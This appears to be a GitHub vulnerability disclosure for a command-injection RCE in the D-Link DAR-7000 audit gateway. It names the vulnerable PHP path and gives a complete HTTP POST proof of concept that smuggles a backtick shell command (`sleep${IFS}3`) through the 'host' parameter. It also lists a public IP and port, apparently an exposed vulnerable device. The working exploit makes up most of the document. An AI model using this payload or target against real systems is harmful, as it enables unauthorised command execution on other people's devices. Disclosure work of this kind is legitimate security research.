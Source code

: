 The D-LINK DAR-7000 series online behavior audit gateway has a RCE vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official： http://www.dlink.com.cn/

version:DAR-7000

Vulnerability Path ：/view/DBManage/Backup_Server_commit.php


221.193.248.37:9091

poc:
```
POST /view/DBManage/Backup_Server_commit.php?action=test HTTP/1.1
Host: 127.0.0.1
Cookie: 
Content-Length: 50
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Dnt: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Priority: u=0, i
Connection: close

host=`sleep${IFS}3`&mode=0&port=80&user=&password=
```
<img width="1014" alt="图片" src="https://github.com/user-attachments/assets/a22ce3c3-0797-4841-9c19-9353901e229b">

<img width="1019" alt="图片" src="https://github.com/user-attachments/assets/ec3ecb0e-d3a0-4814-a270-9d9eb196dc61">

